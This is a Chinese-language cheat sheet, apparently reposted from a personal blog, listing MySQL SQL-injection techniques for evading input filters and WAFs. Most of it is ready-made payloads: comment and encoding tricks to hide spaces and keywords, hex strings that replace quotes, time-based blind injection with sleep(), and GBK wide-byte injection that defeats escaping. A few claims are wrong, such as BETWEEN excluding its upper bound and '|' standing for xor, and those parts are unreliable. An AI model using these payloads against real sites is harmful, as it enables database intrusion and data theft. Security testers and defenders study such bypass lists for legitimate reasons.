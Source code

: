 ```yaml
---
title: SQL注入绕过技巧
author: VVVinson
source: https://www.cnblogs.com/Vinson404/p/7253255.html
tags: [ sql ]
---
```


1.绕过空格（注释符/* */，%a0）：

两个空格代替一个空格，用Tab代替空格，%a0=空格：

```sql
%20 %09 %0a %0b %0c %0d %a0 %00 /**/  /*!*/
```

最基本的绕过方法，用注释替换空格：

```sql
/* 注释 */
```

使用浮点数：

```sql
select * from users where id=8E0union select 1,2,3
select * from users where id=8.0 select 1,2,3
```

2.括号绕过空格：

如果空格被过滤，括号没有被过滤，可以用括号绕过。

在MySQL中，括号是用来包围子查询的。因此，任何可以计算出结果的语句，都可以用括号包围起来。而括号的两端，可以没有多余的空格。

例如：

```sql
select(user())from dual where(1=1)and(2=2)
```

这种过滤方法常常用于time based盲注,例如：

```sql
?id=1%27and(sleep(ascii(mid(database()from(1)for(1)))=109))%23
```

（from for属于逗号绕过下面会有）

上面的方法既没有逗号也没有空格。猜解database（）第一个字符ascii码是否
为109，若是则加载延时。

3.引号绕过（使用十六进制）：

会使用到引号的地方一般是在最后的where子句中。如下面的一条sql语句，这条语句就是一个简单的用来查选得到users表中所有字段的一条语句：

```sql
select column_name  from information_schema.tables where table_name="users"
```

这个时候如果引号被过滤了，那么上面的where子句就无法使用了。那么遇到这
样的问题就要使用十六进制来处理这个问题了。

users的十六进制的字符串是7573657273。那么最后的sql语句就变为了：

```sql
select column_name  from information_schema.tables where
table_name=0x7573657273
```

4.逗号绕过（使用from或者offset）：

在使用盲注的时候，需要使用到substr(),mid(),limit。这些子句方法都需要使用到逗号。对于substr()和mid()这两个方法可以使用from to的方式来解决：

```sql
select substr(database() from 1 for 1);
select mid(database() from 1 for 1);
```

使用join：

```sql
union select 1,2     #等价于
union select * from (select 1)a join (select 2)b
```

使用like：

```sql
select ascii(mid(user(),1,1))=80   #等价于
select user() like 'r%'
```

对于limit可以使用offset来绕过：

```sql
select * from news limit 0,1
# 等价于下面这条SQL语句
select * from news limit 1 offset 0
```

5.比较符号（<>）绕过（过滤了<>：sqlmap盲注经常使用<>，使用between的脚本）：

使用greatest()、least（）：（前者返回最大值，后者返回最小值）

同样是在使用盲注的时候，在使用二分查找的时候需要使用到比较操作符来进行
查找。如果无法使用比较操作符，那么就需要使用到greatest来进行绕过了。

最常见的一个盲注的sql语句：

```sql
select * from users where id=1 and ascii(substr(database(),0,1))>64
```

此时如果比较操作符被过滤，上面的盲注语句则无法使用,那么就可以使用
greatest来代替比较操作符了。greatest(n1,n2,n3,...)函数返回输入参数
(n1,n2,n3,...)的最大值。

那么上面的这条sql语句可以使用greatest变为如下的子句:

```sql
select * from users where id=1 and greatest(ascii(substr(database(),0,1)),64)=64
```

使用between and：

between a and b：返回a，b之间的数据，不包含b。

6. or and xor not绕过：

```sql
and=&&  or=||   xor=|   not=!
```

7.绕过注释符号（#，--(后面跟一个空格））过滤：

```sql
id=1' union select 1,2,3||'1
```

最后的`or '1`闭合查询语句的最后的单引号，或者：

```sql
id=1' union select 1,2,'3
```

8.`=`绕过：

使用like 、rlike 、regexp 或者 使用< 或者 >

9.绕过union，select，where等：

（1）使用注释符绕过：

常用注释符：

```sql
//，-- , /**/, #, --+, -- -, ;,%00,--a
```

用法：

```sql
U/**/ NION /**/ SE/**/ LECT /**/user，pwd from user
```

（2）使用大小写绕过：

```sql
id=-1'UnIoN/**/SeLeCT
```

（3）内联注释绕过：

```sql
id=-1'/*!UnIoN*/ SeLeCT 1,2,concat(/*!table_name*/) FrOM /*information_schema*/.tables /*!WHERE *//*!TaBlE_ScHeMa*/ like database()#
```

（4） 双关键字绕过（若删除掉第一个匹配的union就能绕过）：

```sql
id=-1'UNIunionONSeLselectECT1,2,3–-
```

10.通用绕过（编码）：

如URLEncode编码，ASCII,HEX,unicode编码绕过：

```sql
or 1=1即%6f%72%20%31%3d%31，而Test也可以为CHAR(101)+CHAR(97)+CHAR(115)+CHAR(116)。
```

11.等价函数绕过：
复制代码

```sql
hex()、bin() ==> ascii()

sleep() ==>benchmark()

concat_ws()==>group_concat()

mid()、substr() ==> substring()

@@user ==> user()

@@datadir ==> datadir()

举例：substring()和substr()无法使用时：?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74　

或者：
substr((select 'password'),1,1) = 0x70
strcmp(left('password',1), 0x69) = 1
strcmp(left('password',1), 0x70) = 0
strcmp(left('password',1), 0x71) = -1
```

12.宽字节注入：

过滤 ' 的时候往往利用的思路是将 ' 转换为 \' 。

在 mysql 中使用 GBK 编码的时候，会认为两个字符为一个汉字，一般有两种思路：

（1）%df 吃掉 \ 具体的方法是 urlencode('\) = %5c%27，我们在 %5c%27 前
面添加 %df ，形成 %df%5c%27 ，而 mysql 在 GBK 编码方式的时候会将两个字
节当做一个汉字，%df%5c 就是一个汉字，%27 作为一个单独的（'）符号在外面：

```sql
id=-1%df%27union select 1,user(),3--+
```

（2）将 \' 中的 \ 过滤掉，例如可以构造 %**%5c%5c%27 ，后面的 %5c 会被
前面的 %5c 注释掉。

一般产生宽字节注入的PHP函数：

1.replace（）：过滤 ' \ ，将 ' 转化为 \' ，将 \  转为 \\，将 " 转为 \" 。用思路一。

2.addslaches()：返回在预定义字符之前添加反斜杠（\）的字符串。预定义字
符：' , " , \ 。用思路一

（防御此漏洞，要将 mysql_query 设置为 binary 的方式）

3.mysql_real_escape_string()：转义下列字符：

```
\x00     \n     \r     \     '     "     \x1a
```

（防御，将mysql设置为gbk即可）
